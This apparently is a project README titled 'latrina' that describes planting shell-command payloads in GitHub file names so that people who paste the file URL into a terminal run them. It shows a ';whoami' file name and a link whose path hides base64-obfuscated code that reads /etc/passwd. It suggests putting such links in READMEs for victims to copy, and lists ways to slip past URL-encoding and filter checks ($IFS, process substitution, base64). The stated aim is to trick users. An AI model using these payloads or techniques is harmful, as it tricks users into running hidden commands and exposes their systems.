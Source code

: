 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the url in the address bar

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.
Bypassing the rookie level will get you to this point.
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```,
the payload is executed. Can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php  
or try to encode the payload directly  
https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)
# markdown
we can also put the link in the readme and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. ```fakebase -d "bG1hbwo="```, since base64 takes the argument as a file not a string

god-like level:
```
'$'
';'
```
it's not easy but it's doable, we can use two apostrophes to start the command ''
but then we are left without the possibilty to set variables and separate commands

